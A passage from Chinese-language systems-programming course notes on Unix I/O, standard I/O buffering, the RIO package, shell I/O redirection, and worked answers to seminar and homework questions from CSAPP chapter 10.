| fscanf、fprintf（scanf、printf） | 格式化读写 | 同上 |
| sscanf、sprintf | 对内存中的字符串做格式化读写，不涉及文件 | 无 |
| fflush | 把输出缓冲区中的内容立即 write 出去 | write |
| fseek | 移动文件位置，并清空缓冲区 | lseek |
| fdopen | 把一个已经打开的描述符包装成 FILE 流 | 无 |
标准 I/O 把一个打开的文件看作一个流（stream，课件 p.34），类型是 FILE *。流就是“一个描述符加一块内存中的缓冲区”。C 程序开始运行时已经打开了三个流：stdin、stdout、stderr，分别建立在描述符 0、1、2 上。所以 fprintf(stdout, ...) 最终写的是描述符 1，而描述符 1 指向哪里，由启动这个程序的 shell 决定：通常是终端，重定向之后是文件。键盘和屏幕并不直接是 stdin 和 stdout，它们是终端设备，shell 在启动程序之前把描述符 0、1、2 都连到了终端（18.6 节的实验中三者都指向 /dev/pts/0）。
缓冲的动机在 18.4 节已经看到（课件 p.35）：程序常常一次读写一个字符或一行，如果每次都调用 read、write，就要频繁地进入内核。标准 I/O 的做法是读的时候用一次 read 取一大块放进缓冲区，之后的 getc、fgets 从缓冲区中取；写的时候先放进缓冲区，攒够了再一次 write（课件 p.36）。课件 p.37 用 strace 演示了下面的程序，它连续六次 printf 输出 h、e、l、l、o、\n：
#include <stdio.h>
#include <stdlib.h>
int main()
{
printf("h");
printf("e");
printf("l");
printf("l");
printf("o");
printf("\n");
fflush(stdout);
exit(0);
}strace 记录中与输出有关的只有一行，六次 printf 合成了一次 write。默认环境上的结果相同：
$ strace ./hello
...
write(1, "hello\n", 6) = 6
...什么时候才真正 write？取决于流的缓冲方式，glibc 在流第一次被使用时决定：
表 5 标准 I/O 的三种缓冲方式（glibc）
| 缓冲方式 | 用于 | 什么时候 write |
|---|---|---|
| 不缓冲 | stderr | 每次输出都立即 write |
| 行缓冲 | 连到终端的 stdout | 遇到换行符；缓冲区满；fflush；程序正常结束 |
| 全缓冲 | 连到文件或管道的流 | 缓冲区满（默认环境为 4096 字节）；fflush；程序正常结束 |
课件 p.36 说缓冲区“在遇到 \n、调用 fflush、exit 或从 main 返回时”被清空，其中“遇到 \n”只对行缓冲成立。默认环境上的实验可以看出区别。下面的 hello2 把 printf 与 write 混在一起，最后用 _exit 结束，_exit 不清空缓冲区：
#include <stdio.h>
#include <unistd.h>
int main()
{
printf("h"); printf("e"); printf("l");
write(1, "[W]", 3); /* 绕过 stdio 的缓冲区，直接写 */
printf("l"); printf("o"); printf("\n");
printf("world"); /* 没有换行，也不 fflush */
_exit(0); /* 不清空缓冲区就结束 */
}分别让 stdout 连到终端和文件：
$ ./hello2 # stdout 连到终端：行缓冲
[W]hello
$ ./hello2 > f.txt # stdout 连到文件：全缓冲
$ od -c f.txt
0000000 [ W ]两种情况下 [W] 都在 hel 之前出现，因为 write 绕过了 stdio 的缓冲区，而 hel 还在缓冲区里。连到终端时，换行符触发了一次 write，hello 被写出，没有换行的 world 随 _exit 丢失；连到文件时，换行不触发 write，缓冲区里的内容全部丢失。同样的道理，18.3 节的 openclose2 在 stdout 连到管道时，perror 写到 stderr 的错误信息会出现在它之前 printf 的“fd = 3”前面。这些现象说明：混用 printf 与 write、程序异常结束、fork 时缓冲区中还有内容（第 16 讲 16.10 节的 buf.c），都会让输出的顺序或内容与源程序的顺序不一致。
研讨题 2（3）问 C 程序层面与实际执行层面的差异，答案就是这里的缓冲：程序中有六次 printf，执行层面只有一次 write；程序中的输出顺序，也不一定是输出真正到达文件的顺序。原因是标准 I/O 在用户空间维护了自己的缓冲区，只在上表的时机才调用 write。可以用 setvbuf(stdout, NULL, _IONBF, 0) 关闭缓冲，或在关键位置调用 fflush。
18.10 RIO 包（课件 p.40–49）#
RIO（robust I/O）是教材的一组包装函数，在 csapp.c 中（课件 p.42）。它们专门解决 Unix I/O 的两个麻烦：不足值，以及被信号打断。RIO 提供两类函数。
不带缓冲的 rio_readn 和 rio_writen（课件 p.43–44）接口与 read、write 相同，用来传送二进制数据，尤其适合网络套接字。rio_readn 只在遇到 EOF 时返回不足值；rio_writen 从不返回不足值。实现的思路是一个循环：只要还没传完，就再调用一次 read 或 write，把已经传送的部分从剩余量中扣掉。循环中有两处细节。第一，read 返回 −1 且 errno 为 EINTR，说明调用被一个信号处理程序打断了（第 17 讲 17.8 节），这不是真正的错误，就把这次算作读了 0 个字节，重新调用；其他错误则返回 −1。第二，read 返回 0 表示 EOF，跳出循环，返回已经读到的字节数。rio_writen 的结构相同，只是没有 EOF 这一支：
ssize_t rio_readn(int fd, void *usrbuf, size_t n)
{
size_t nleft = n;
ssize_t nread;
char *bufp = usrbuf;
while (nleft > 0) {
if ((nread = read(fd, bufp, nleft)) < 0) {
if (errno == EINTR) /* Interrupted by sig handler return */
nread = 0; /* and call read() again */
else
return -1; /* errno set by read() */
}
else if (nread == 0)
break; /* EOF */
nleft -= nread;
bufp += nread;
}
return (n - nleft); /* Return >= 0 */
}带缓冲的 rio_readlineb 和 rio_readnb（课件 p.45–46）从一个内部缓冲区中读取文本行或二进制数据，使用前要用 rio_readinitb 把一个 rio_t 结构与描述符关联起来。rio_t 中有描述符 rio_fd、缓冲区 rio_buf（RIO_BUFSIZE = 8192 字节）、缓冲区中还没被取走的字节数 rio_cnt，以及指向下一个未读字节的 rio_bufptr（图 5，课件 p.47–48）：
#define RIO_BUFSIZE 8192
typedef struct {
int rio_fd; /* Descriptor for this internal buf */
int rio_cnt; /* Unread bytes in internal buf */
char *rio_bufptr; /* Next unread byte in internal buf */
char rio_buf[RIO_BUFSIZE]; /* Internal buffer */
} rio_t;图 5 rio_t 的缓冲区与文件的对应关系（课件 p.47）：缓冲区中是文件中已读入内存的一段，内核的文件位置在这一段的末尾
static ssize_t rio_read(rio_t *rp, char *usrbuf, size_t n)
{
int cnt;
while (rp->rio_cnt <= 0) { /* Refill if buf is empty */
rp->rio_cnt = read(rp->rio_fd, rp->rio_buf,
sizeof(rp->rio_buf));
if (rp->rio_cnt < 0) {
if (errno != EINTR) /* Interrupted by sig handler return */
return -1;
}
else if (rp->rio_cnt == 0) /* EOF */
return 0;
else
rp->rio_bufptr = rp->rio_buf; /* Reset buffer ptr */
}
/* Copy min(n, rp->rio_cnt) bytes from internal buf to user buf */
cnt = n;
if (rp->rio_cnt < n)
cnt = rp->rio_cnt;
memcpy(usrbuf, rp->rio_bufptr, cnt);
rp->rio_bufptr += cnt;
rp->rio_cnt -= cnt;
return cnt;
}ssize_t rio_readlineb(rio_t *rp, void *usrbuf, size_t maxlen)
{
int n, rc;
char c, *bufp = usrbuf;
for (n = 1; n < maxlen; n++) {
if ((rc = rio_read(rp, &c, 1)) == 1) {
*bufp++ = c;
if (c == '\n') {
n++;
break;
}
} else if (rc == 0) {
if (n == 1)
return 0; /* EOF, no data read */
else
break; /* EOF, some data was read */
} else
return -1; /* Error */
}
*bufp = 0;
return n-1;
}两个函数都建立在内部函数 rio_read 之上：缓冲区空了（rio_cnt ≤ 0）就调用一次 read 把它装满（最多 8192 字节），然后从缓冲区中复制 min(n, rio_cnt) 个字节给调用者。rio_readlineb 每次从 rio_read 取一个字节，直到读到换行符、读满 maxlen − 1 个字节或遇到 EOF，然后在末尾补一个 '\0'，所以它返回的字节数最多是 maxlen − 1。rio_readnb 则一次取 n 个，只在 EOF 时返回不足值。表 2 中 showfile4_rio 对 77 字节的文件只做了两次 read，请求的都是 8192 字节，正是这个缓冲区在起作用。
同一个描述符上，rio_readlineb 和 rio_readnb 可以任意交替调用，因为它们共用同一个缓冲区；但不要和 rio_readn 交替：rio_readn 直接调用 read，会越过缓冲区中已经读进来、却还没被取走的字节。不带缓冲的 rio_readn 与 rio_writen 之间则可以任意交替。
18.11 三套 I/O 怎样选（课件 p.51–55、p.59）#
标准 I/O 和 RIO 都是在 Unix I/O 之上实现的（课件 p.51），三者各有长处和短处（表 6）。
表 6 Unix I/O、标准 I/O 与 RIO 的比较（课件 p.52–54）
| 方式 | 长处 | 短处 | 适合 |
|---|---|---|---|
| Unix I/O | 最通用、开销最小，其他 I/O 都由它实现；能访问元数据；异步信号安全，可以在信号处理程序中使用 | 要自己处理不足值；高效地读文本行需要自己做缓冲 | 信号处理程序中；对性能要求极高时 |
| 标准 I/O | 有缓冲，系统调用少；自动处理不足值；格式化输入输出很方便 | 不能访问元数据；不是异步信号安全的；不适合网络套接字 | 磁盘文件和终端 |
| RIO | 处理不足值和 EINTR；带缓冲读文本行；带缓冲的函数是线程安全的 | 不是标准库，只有输入有缓冲；没有格式化功能 | 网络套接字 |
课件 p.54 的总原则是：尽量使用最高层的 I/O 函数，但要清楚它们是怎样工作的。读写磁盘文件和终端时用标准 I/O；在信号处理程序中只能用 Unix I/O（或第 17 讲的 SIO，它就是用 write 实现的）；读写网络套接字时用 RIO，避免用标准 I/O。标准 I/O 不适合套接字，是因为它的流有一些限制：同一个流上，输出之后要先调用 fflush、fseek 等才能输入，输入之后也要先 fseek 才能输出，而套接字上不能用 lseek（教材 10.11 节）。
处理二进制文件时还要避开两类函数（课件 p.55）。一类是面向文本行的函数，如 fgets、scanf、rio_readlineb，它们会把字节 0x0a 当作行尾；另一类是字符串函数，如 strlen、strcpy、strcat，它们把字节 0 当作字符串的结尾，而二进制文件中 0 很常见。读二进制文件应当用 rio_readn、rio_readnb 或 fread，并始终用返回的字节数而不是 strlen 判断读到了多少。研讨题 1（2）中用文本编辑器打开图片，看到的就是这些字节被当作字符的结果：PNG 文件开头的 8 个字节是 89 50 4e 47 0d 0a 1a 0a，cat -v 显示为 M-^IPNG^M、换行、^Z，其后大量的 0 字节显示为 ^@。
对目录，唯一推荐的操作是读取它的目录项（课件 p.59）：opendir 打开目录得到 DIR *，反复调用 readdir，每次得到一个 struct dirent，其中的 d_name 是文件名，读完返回 NULL，最后 closedir。readdir 返回目录项的顺序由文件系统决定，不保证有序；ls 显示的顺序是它自己排过序的。
18.12 拓展：Shell Lab 中的 I/O 重定向#
Shell Lab 的 tsh 必须支持 < 和 >，而且同一条命令中可以同时出现，例如 /bin/cat < foo > bar；内置命令 jobs 的输出也要能重定向，例如 jobs > foo。测试用的 trace22–trace24 分别检查输入重定向、输入和输出同时重定向、两者顺序颠倒的情况。这一节把本讲的内容对应到这些要求上，只讲做法和要注意的地方，不给出 tsh 的代码。
handout 中的 parseline 已经把重定向解析好了：它把 < 后面的文件名放进 tok.infile，> 后面的放进 tok.outfile，没有就是 NULL；同一方向出现两次时报“Ambiguous I/O redirection”。所以 > /dev/null < mycat.c 与 < mycat.c > /dev/null 解析出的结果完全一样，trace24 测的“顺序颠倒”在 parseline 之后已经不是问题。剩下的工作是 18.7 节的两步：打开文件，dup2 到描述符 0 或 1。
对外部命令，dup2 必须在子进程中、execve 之前做，不能在 shell 进程里做，否则 shell 自己的标准输出也被改掉了。打开文件则有两种做法：在子进程中打开，或者在 fork 之前由 shell 打开、子进程 dup2。在默认环境上用 strace 观察参考程序 tshref 运行 /bin/cat < in.txt > out.txt，看到的是后一种（节选）：
696 openat(AT_FDCWD, "in.txt", O_RDONLY) = 3
696 openat(AT_FDCWD, "out.txt", O_WRONLY|O_CREAT|O_TRUNC, 0644) = 4
696 clone(...) = 697
697 dup2(3, 0) = 0
697 dup2(4, 1) = 1
697 close(3) ... close(4) ...
697 execve("/bin/cat", ["/bin/cat"], ...) = 0
696 close(3) ... close(4) ...可以读出几点。输出文件用 O_WRONLY|O_CREAT|O_TRUNC 打开，权限参数是 0644，实际权限再经过 umask。shell（696）在 fork 之后把自己的 3、4 关掉，子进程（697）dup2 之后也关掉 3、4 再 execve。打开失败时根本不 fork：/bin/cat < nosuch 只看到 shell 打印 Error: nosuch No such file or directory，/bin/echo hi > /nonexistent/x 打印 Error: /nonexistent/x Couldn't open file。在 shell 中打开的好处是出错时能直接报告，不必先建一个注定失败的子进程；不论哪种做法，都要保证 shell 自己最后不留下打开的描述符，否则每运行一条带重定向的命令，shell 就泄漏两个描述符。
内置命令由 shell 自己执行，不 fork，所以 jobs > foo 不能简单地 dup2 到描述符 1。handout 提供的 listjobs 的原型是 void listjobs(struct job_t *job_list, int output_fd)，它直接用 write 往 output_fd 写，所以打开 outfile 之后把得到的描述符传给 listjobs，用完 close 即可；tshref 对 jobs > j.txt 的 strace 记录正是 open 得到 3、写、close(3)。如果换一种做法，先用 dup 把描述符 1 保存起来、dup2 到文件、执行内置命令、再 dup2 回来，就要注意 18.9 节的缓冲问题。下面的程序模拟这种做法，命令行参数为 1 时在恢复描述符 1 之前 fflush：
#include "csapp.h"
static void builtin_jobs(void) /* 代替内置命令的输出 */
{
printf("[1] (101) Running ./myspin 10 &\n");
}
int main(int argc, char *argv[])
{
int flush = (argc > 1 && argv[1][0] == '1');
int saved = dup(STDOUT_FILENO); /* 先把 fd 1 保存到一个新描述符 */
int fd = Open("jobs.txt", O_WRONLY | O_CREAT | O_TRUNC, 0644);
Dup2(fd, STDOUT_FILENO);
Close(fd);
builtin_jobs();
if (flush)
fflush(stdout); /* 恢复之前把缓冲区清空 */
Dup2(saved, STDOUT_FILENO); /* 恢复 fd 1 */
Close(saved);
printf("tsh> （提示符应当出现在终端上）\n");
return 0;
}分别不带和带 fflush 运行：
$ ./builtin_redir 0 # 恢复描述符 1 之前没有 fflush
[1] (101) Running ./myspin 10 &
tsh> （提示符应当出现在终端上）
$ cat jobs.txt # 空文件
$ ./builtin_redir 1 # 恢复之前 fflush(stdout)
tsh> （提示符应当出现在终端上）
$ cat jobs.txt
[1] (101) Running ./myspin 10 &这个演示程序在描述符 1 已经指向文件时第一次调用 printf，stdout 因此被设为全缓冲；没有 fflush 就把描述符 1 恢复成终端，缓冲区里的那一行最后被写到了终端，文件反而是空的。
最后两点与第 17 讲有关。第一，子进程在 execve 之前除了 dup2，还要按 handout 的要求解除对 SIGCHLD、SIGINT、SIGTSTP 的阻塞、恢复默认的信号处理。第二，信号处理程序中只能用 write 或 handout 提供的 sio_put 输出，不能用 printf：printf 不是异步信号安全的，它操作的正是本讲所说的 stdio 缓冲区（17.8 节）。
18.13 小结（课件 p.60）#
这一讲的主线可以概括为一句话：Linux 用文件统一了所有 I/O，内核用三张表管理打开的文件，其余一切都由这两点推出。读写可能出现不足值，所以要循环读写（RIO）或交给库处理（标准 I/O）；系统调用代价高，所以要缓冲，而缓冲又带来了输出顺序与程序顺序不一致的问题；文件位置保存在打开文件表项中，所以 fork 和 dup2 之后的描述符共享位置，shell 也正是靠 dup2 改写描述符表来实现重定向。课件最后推荐了两本深入学习的书：Stevens 与 Rago 的《UNIX 环境高级编程》和 Kerrisk 的《The Linux Programming Interface》。
第二部分 小班研讨题解答（第 18 讲）#
两套研讨题的页码与 2026 版课件一致。第一部分已经完整讲过的内容，这里给出要点并注明小节；题目要求“操作并展示”“尝试运行”的部分，给出默认环境上的实际结果。
研讨题 1：Unix I/O、元数据、共享与重定向#
1（1）基于课件第 4～5 页，说明 Unix I/O 和文件的关系，找到第 4 页提到的那几个表现成文件形式的 I/O 设备。
Linux 的文件就是一个字节序列，而所有 I/O 设备都被表示成文件；内核因此只需要提供一组统一的接口来访问它们，这组接口就是 Unix I/O：open、close、read、write 和改变文件位置的 lseek（18.1 节）。文件是 Unix I/O 操作的对象，Unix I/O 是访问文件的唯一途径，标准 I/O 等库也要通过它才能读写文件。
课件 p.4 提到的“表现成文件的设备”有三个例子：磁盘分区 /dev/sda2（挂载在 /usr 上的分区），终端 /dev/tty2，以及内核本身：内核映像 /boot/vmlinuz-3.13.0-55-generic 是一个普通文件，/proc 目录下的文件则是内核数据结构的“窗口”。在默认环境上看：/dev/null、/dev/tty、/dev/zero 是字符设备文件（ls -l 第一个字符为 c），磁盘 /dev/vda 是块设备文件（b）；cat /proc/self/status 显示的是 cat 进程自己的状态，cat /proc/version 显示内核版本。默认环境是容器，看不到 /boot 中的内核映像。
1（2）操作并展示，然后分析：在 Windows 或 Linux 中，用文本编辑器打开一个二进制文件（如图片文件），会显示出什么，为什么？用 Windows 保存一个文本文件，然后在 Linux 中打开，分析结尾出现的奇怪的符号是什么。
文本编辑器把文件中的每个字节（或几个字节）都当作某种字符编码去解释。图片文件中的字节大多不是可打印字符的编码，所以显示出来是一堆乱码、方框和问号，偶尔夹着几个可读的片段。这些可读片段是文件格式中本来就有的 ASCII 字符串。在默认环境上用 cat -v 看一个 PNG 文件的开头：
$ head -c 48 pic.png | cat -v
M-^IPNG^M
^Z
^@^@^@^MIHDR^@^@^@M-H^@^@^@M-H^H^F^@^@^@M--XM-.M-^^^@^@^@:tEXtSoftwar
$ od -A x -t x1z -N 16 pic.png
000000 89 50 4e 47 0d 0a 1a 0a 00 00 00 0d 49 48 44 52 >.PNG........IHDR<PNG 的前 8 个字节是固定的签名 89 50 4e 47 0d 0a 1a 0a，其中 50 4e 47 正是 ASCII 的 PNG，IHDR、tEXt 是数据块的名字，所以能读出来；0x89 不是 ASCII，显示成 M-^I；0x00 显示成 ^@。原因是内核和文件系统并不区分文本文件和二进制文件（18.2 节），“文本”只是应用程序对字节的一种解释，文本编辑器强行用这种解释去读一个本来不是文本的文件。
Windows 的文本文件以 \r\n（0x0d 0x0a）作为行尾，Linux 只用 \n。在 Linux 中打开，\n 被当作换行，多出来的 \r 就成了每行末尾一个看不见或奇怪的字符，cat -v 显示为 ^M（Ctrl-M，即 0x0d），vim 中也显示为 ^M（18.2 节的实验）。file 命令会报告“with CRLF line terminators”。可以用 dos2unix 或 tr -d '\r' 去掉。
1（3）参考课件第 11～12 页，写一个简单的打开文件和关闭文件的程序。如果不做错误检查，当打开不存在的文件时，会发生什么？如果用了课件上展示的带错误检查的代码，又会发生什么？
程序与运行结果见 18.3 节。不做检查时，open 返回 −1，程序继续拿 −1 去 read 和 close，二者都返回 −1、errno 为 EBADF，程序照常结束，看起来什么都没发生，真正的原因（文件不存在）被掩盖了；在更复杂的程序中，后面依赖这个文件内容的计算会得到错误的结果。用课件 p.11 的写法，open 失败时 perror 打印“open: No such file or directory”并 exit(1)，错误在发生的地方就被发现。对同一个描述符 close 两次，第二次打印“close: Bad file descriptor”。
1（4）结合课件第 11～14、16 页，解读第 15 和 17 页的两个程序示例。
两个程序都把命令行指定的文件（没有参数时是标准输入）复制到标准输出。showfile1_nobuf 每次 read 一个字节、write 一个字节，直到 read 返回 0（EOF）；showfile2_buf 每次最多读 64 个字节，读到几个就写几个，所以它必须用 read 的返回值 nread 作为 write 的长度，而不是固定写 64 个，这正是 p.16 所说的“要考虑不足值”：最后一次 read 通常读不满。用 strace 观察（18.4 节，表 2），复制 77 字节的文件，前者 read 78 次、write 77 次，后者 read 3 次（64、13、0 字节）、write 2 次。两者结果相同，但系统调用的次数相差三十倍。p.17 的代码漏了 nread 的声明。
1（5）解读课件第 19～20 页的代码，尝试运行第 20 页的程序示例，并做说明。解释 chmod 000 statcheck.c 操作的含义，选项 000 还可以换成哪些值？
见 18.5 节。statcheck 用 Stat 取得文件的元数据，用 S_ISREG、S_ISDIR 判断类型，用 st_mode & S_IRUSR 判断所有者是否有读权限。要做的改动是包含 csapp.h 并与 csapp.o 一起编译。chmod 000 statcheck.c 把所有者、组、其他人三组权限都清空，之后 statcheck 报告 read: no，cat 也读不了；元数据仍然能读到，因为 stat 只需要目录的权限。000 可以换成任何三位八进制数 000～777，三位依次对应所有者、所属组、其他人，每位是 r = 4、w = 2、x = 1 之和（L0 讲义 2.2 节），例如 400、600、644、755。只有最高位（所有者）中含 4 时，statcheck 才报告 read: yes：chmod 044 之后组和其他人能读，所有者反而读不了，statcheck 报告 read: no，cat 也确实失败。
1（6）基于课件第 21 页，说明这三类表的作用，图中显示出的每个表项的含义，每类表在系统中有几张，文件打开、关闭、读、写时候，哪些表项会发生变动。
三张表的作用、数量和变化规则见 18.6 节，这里列成一张表。
表 7 三张表的作用与变化（研讨题 1（6））
| 表 | 表项的内容 | 有几张 | 什么时候变化 |
|---|---|---|---|
| 描述符表 | 第 i 项指向打开文件表中的一项；下标 i 就是描述符 | 每个进程一张 | open 时占用最小的空闲项；close 时释放；dup2、fork 时复制 |
| 打开文件表 | 当前文件位置（File pos）、访问方式、引用计数 refcnt、指向 v-node 的指针 | 整个系统一张 | open 时新建一项（pos = 0、refcnt = 1）；read、write 改变 pos；close 使 refcnt 减 1，为 0 时释放 |
| v-node 表 | 文件本身的信息：访问权限、大小、类型等，即 stat 中的大部分内容 | 整个系统一张 | 文件第一次被打开时建立；write 使文件变长时大小改变；没有打开文件表项指向它时释放 |
课件 p.21 的图中，描述符 1（stdout）指向文件 A，也就是终端；描述符 4 指向文件 B，一个磁盘文件。两个打开文件表项各有自己的 File pos 和 refcnt = 1，各自指向自己的 v-node，v-node 中的 File access、File size、File type 就是 stat 结构中的那些信息。
1（7）基于课件第 22～24 页，讲解共享文件和创建进程时，文件相关几个表的变化。
见 18.6 节与 图 2、图 3。同一个进程对同一个文件 open 两次（p.22），描述符表中有两项，打开文件表中也有两项，各有各的文件位置，二者指向同一个 v-node：逻辑上是两个“打开”，物理上是同一个文件，从一个描述符读不影响另一个的位置。fork 时（p.23–24），子进程得到父进程描述符表的一份副本，副本中的每一项指向与父进程相同的打开文件表项，这些表项的 refcnt 都加 1，v-node 表不变。于是父子进程共享文件位置：默认环境上父进程打开文件后 fork，子进程读到 a，父进程随后读到 b。之后 execve 也不改变描述符表。
1（8）基于课件第 25～27 页，讲解 I/O 重定向时，文件相关几个表的变化。
见 18.7 节与 图 4。以 ls > foo.txt 为例：shell fork 出的子进程先 open("foo.txt")，描述符表中新占一项（设为 4），打开文件表中新建一项，指向 foo.txt 的 v-node。然后 dup2(4, 1)：描述符表的第 1 项被改成与第 4 项相同，指向 foo.txt 的表项，这一项的 refcnt 由 1 变为 2；第 1 项原来指向的终端表项 refcnt 减 1，课件的图中减到 0 并被释放（实际上 shell 和其他进程也指向同一个终端表项，通常不会减到 0）。接着 close(4)，refcnt 回到 1。最后 execve 运行 ls，它往描述符 1 写的内容就进了 foo.txt。整个过程中 v-node 表没有变化，打开文件表只是 refcnt 变化，真正被改写的是描述符表。
1（9）基于课件第 28～31 页，逐个讲解程序示例。
见 18.8 节。ffiles1 输出 c1 = a, c2 = a, c3 = b：fd1 与 fd2 是两个独立的表项，dup2(fd2, fd3) 之后 fd3 与 fd2 共享位置。ffiles2 中父子进程共享一个打开文件表项，c1 都是 a，先读的进程 c2 为 b、后读的为 c；谁先读取决于父进程 PID 的奇偶，PID 为偶数时父进程先读。默认环境上运行 6 次，PID 447、461、465（奇数）时子进程得到 b，452、456、470（偶数）时父进程得到 b。
研讨题 2：标准 I/O 与 RIO#
2（1）基于课件第 33～34 页，说明列出的每个标准 I/O 函数的功能；说明三个默认打开的 I/O 文件的作用，它们和键盘、显示屏幕之间是什么关系。
各函数的功能见 18.9 节 表 4。三个默认打开的流是 stdin（标准输入，描述符 0）、stdout（标准输出，描述符 1）和 stderr（标准错误，描述符 2）。程序从 stdin 读输入，把正常的结果写到 stdout，把错误信息和诊断信息写到 stderr。把输出分成两路，是为了重定向时能分开处理：prog > out.txt 只把正常结果写进文件，错误信息仍然显示在终端上；stderr 不缓冲，出错时信息能立即出现。
它们与键盘、屏幕之间隔着终端这一层。键盘和屏幕是终端设备的输入和输出部分，内核把终端表示成一个文件（如 /dev/pts/0）。shell 启动程序之前，把描述符 0、1、2 都指向这个终端文件，所以程序从描述符 0 读到的是键盘输入，写到描述符 1、2 的内容显示在屏幕上。这是一种约定，不是固定的连接：重定向之后，描述符 0 可以指向一个磁盘文件，描述符 1 可以指向管道，程序本身完全不知道。
2（2）基于课件第 35～36 页，说明 I/O 操作为什么要用带缓冲的形式。
因为系统调用的代价远高于普通的函数调用（18.4、18.9 节）。每次 read、write 都要从用户模式陷入内核、执行内核代码、再返回，课件估计要一万个以上的时钟周期；而程序常常一次只处理一个字符或一行。如果每个字符都调用一次 read 或 write，大部分时间都花在进出内核上。带缓冲的做法用一次 read 取一大块数据放进用户空间的缓冲区，之后的读取直接从缓冲区复制；写也先放进缓冲区，攒够了再一次 write。默认环境上复制 77 个字节，逐字节的程序要 155 次系统调用，标准 I/O 只要 3 次。缓冲的代价是输出被推迟：数据要等到换行、缓冲区满、fflush 或程序结束时才真正写出（表 5）。
2（3）基于课件第 37～38 页，讲解程序示例，解释 I/O 相关的操作在 C 程序层面和实际执行层面的差异，并分析原因。
p.37 的程序调用了六次 printf，strace 显示实际只有一次 write(1, "hello\n", 6)。p.38 的 showfile3_stdio 用 fgets 一行一行地读、fprintf 一行一行地写；对 77 字节、6 行的文件，实际只有两次 read（每次请求 4096 字节，读到 77 和 0）。输出到文件时只有一次 write，输出到终端时有六次 write，每行一次。差异的原因是标准 I/O 在用户空间维护了缓冲区：程序层面的每次调用只是在缓冲区中存取，只有缓冲区空了才 read，按缓冲方式规定的时机才 write；而缓冲方式又取决于 stdout 连到终端还是文件（18.9 节）。另外 p.38 的 fprintf(stdout, buf) 应当写成 fprintf(stdout, "%s", buf)（18.4 节）。
2（4）基于课件第 40～42 页，讲解 C 标准 I/O、Unix I/O 和 RIO 三种方式在软件系统中所处的层次，并简要介绍各自的代表函数。
见 图 1。Unix I/O 在最底层，是内核通过系统调用提供的接口，代表函数是 open、read、write、lseek、stat、close、dup2。标准 I/O 和 RIO 是建立在 Unix I/O 之上的两套用户态的库，彼此独立、互不兼容：标准 I/O 属于 C 标准库 libc，代表函数是 fopen、fread、fwrite、fgets、fputs、fprintf、fscanf、fflush、fclose；RIO 是教材 csapp.c 中的包装函数，代表函数是 rio_readn、rio_writen、rio_readinitb、rio_readlineb、rio_readnb。应用程序可以调用其中任何一层。
2（5）基于课件第 43～49 页，逐个简要介绍 RIO 函数提供的功能。
见 18.10 节。rio_readn(fd, buf, n) 读 n 个字节，只在 EOF 时返回不足值，被信号打断（EINTR）时自动重读。rio_writen(fd, buf, n) 写 n 个字节，从不返回不足值。rio_readinitb(&rio, fd) 把一个 rio_t 缓冲区与描述符关联起来，是使用带缓冲函数之前必须的初始化。rio_readlineb(&rio, buf, maxlen) 读一个文本行（含换行符），最多 maxlen − 1 个字节，并在末尾补 '\0'。rio_readnb(&rio, buf, n) 通过同一个缓冲区读最多 n 个字节，只在 EOF 时返回不足值。前两个不带缓冲，可以任意交替；后两个共用 rio_t 的缓冲区，可以任意交替，但不能与 rio_readn 交替。p.49 的 showfile4_rio 用 rio_readlineb 逐行读、rio_writen 逐行写，strace 显示 read 两次（每次请求 8192 字节）、write 六次。
2（6）基于课件第 51～54 页，对比说明 C 标准 I/O、Unix I/O 和 RIO 三种方式的优缺点和建议使用场景。
见 18.11 节 表 6。简言之：Unix I/O 最底层、开销最小、能访问元数据、可以在信号处理程序中使用，但要自己处理不足值和缓冲；标准 I/O 有缓冲、自动处理不足值、有格式化功能，适合磁盘文件和终端，但不能在信号处理程序中用，也不适合网络；RIO 处理不足值和信号中断，带缓冲地读文本行，适合网络套接字。总原则是尽量用最高层的函数，同时理解它们的行为。
2（7）基于课件第 55～58 页，逐个讲解程序示例。
p.55 讲二进制文件不能用面向文本行的函数和字符串函数（18.11 节）。p.56 的 ffiles1 与 p.57 的 ffiles2 和第一部分的两个热身例子相同（研讨题 1（9）、18.8 节）。p.58 的 ffiles3 最后得到的文件内容是 pqrswxyznef（表 3）：fd1 写 pqrs；fd3 带 O_APPEND，把 jklmn 追加在末尾；fd2 = dup(fd1) 与 fd1 共享位置 4，wxyz 覆盖了 jklm；fd3 再把 ef 追加到末尾。默认环境上运行，三个描述符依次是 fd1 = 3、fd3 = 4、fd2 = 5，文件内容与分析一致。
第三部分 作业题解答：10.6、10.10#
两道题在中文版第 640–641 页。两题的程序都在默认环境上编译运行过。
作业 10.6#
10.6下面程序的输出是什么？
#include "csapp.h"
int main()
{
int fd1, fd2;
fd1 = Open("foo.txt", O_RDONLY, 0);
fd2 = Open("bar.txt", O_RDONLY, 0);
Close(fd2);
fd2 = Open("baz.txt", O_RDONLY, 0);
printf("fd2 = %d\n", fd2);
exit(0);
}答案
fd2 = 4
这道题考的是描述符的分配规则：open 总是返回当前没有打开的最小描述符（18.3 节）。程序开始时 0、1、2 已经被标准输入、标准输出、标准错误占用。打开 foo.txt 得到 3，打开 bar.txt 得到 4；close(fd2) 释放了 4；再打开 baz.txt 时，最小的空闲描述符又是 4。所以输出 fd2 = 4。默认环境上运行，输出相同。
如果去掉 Close(fd2) 这一行，baz.txt 会得到 5。如果程序是在一个关闭了标准输入的环境中运行的（例如 ./a.out <&-），描述符 0 空着，foo.txt 就会得到 0，bar.txt 得到 3，关闭后 baz.txt 又得到 3，输出变成 fd2 = 3（默认环境实测）。这说明“第一个 open 得到 3”只是通常的情况，背后的规则是“最小的空闲描述符”。
作业 10.10#
10.10修改教材图 10-5 中的 cpfile 程序，使得它有一个可选的命令行参数 infile。如果给定了 infile，那么复制 infile 到标准输出，否则像以前那样复制标准输入到标准输出。一个要求是对于两种情况，你的解答都必须使用原来的复制循环（第 9～11 行）。只允许你插入代码，而不允许更改任何已经存在的代码。
原来的复制循环从描述符 STDIN_FILENO 读。既然不能修改循环，就让描述符 0 指向 infile：这正是 18.7 节的输入重定向，用 dup2 实现。
#include "csapp.h"
int main(int argc, char **argv)
{
int n;
rio_t rio;
char buf[MAXLINE];
if (argc == 2) { /* 插入的代码开始 */
int fd = Open(argv[1], O_RDONLY, 0);
Dup2(fd, STDIN_FILENO);
Close(fd);
} /* 插入的代码结束 */
Rio_readinitb(&rio, STDIN_FILENO);
while((n = Rio_readlineb(&rio, buf, MAXLINE)) != 0)
Rio_writen(STDOUT_FILENO, buf, n);
}插入的代码必须放在 Rio_readinitb 之前：rio_t 记录的是描述符的编号 0，只要在开始读之前让描述符 0 指向 infile，后面的循环就从 infile 读。dup2 之后关闭原来的描述符 fd，因为之后只通过描述符 0 访问这个文件。在默认环境上测试三种情况：
